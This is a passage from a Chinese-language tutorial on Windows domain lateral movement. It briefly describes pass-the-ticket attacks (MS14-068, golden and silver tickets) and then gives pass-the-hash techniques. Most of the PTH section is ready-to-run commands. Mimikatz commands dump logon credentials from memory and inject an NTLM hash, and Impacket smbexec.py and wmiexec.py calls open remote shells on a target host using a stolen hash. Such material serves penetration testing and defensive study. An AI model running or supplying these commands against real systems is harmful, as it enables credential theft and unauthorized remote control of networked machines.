 [![img](assets/1702372821-3f4d58bf781947fa4042a9c0477fb563.png)](https://storage.tttang.com/media/attachment/2023/05/09/d8ba59d2-557c-4c35-bbf9-7cdd80593836.png)

**PTT-票据传递**

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，三种常见的攻击方法：

MS14-068，Golden ticket，SILVER ticket。简单来说就是将连接合法的票据注入到内存中实现连接。

Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术

MS14-068 基于漏洞，造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是 kb3011780

## [PTH](#toc_pth)

### [**利用Mimikatz进行PTH**](#toc_mimikatzpth)

Mimikatz内置了哈希传递的功能，需要本地管理员权限。

① 抓取用户的哈希

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

② 利用抓取的域管理员的NTLM hash进行哈希传递

```plain
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit
```

### [**利用impacket进行PTH**](#toc_impacketpth)

Impacket项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

```plain
psexec.py      # 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom） smbexec.py     # 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。 python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
               #-hashes 指定用户完整的哈希，如果LM哈希被废弃，就将其指定为0或者空 

atexec.py      # 此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。

wmiexec.py     # 需要开放139和445端口，通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
dcomexec.py    # 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持               MMC20.Application，ShellWindows和ShellBrowserWindow对象。
```
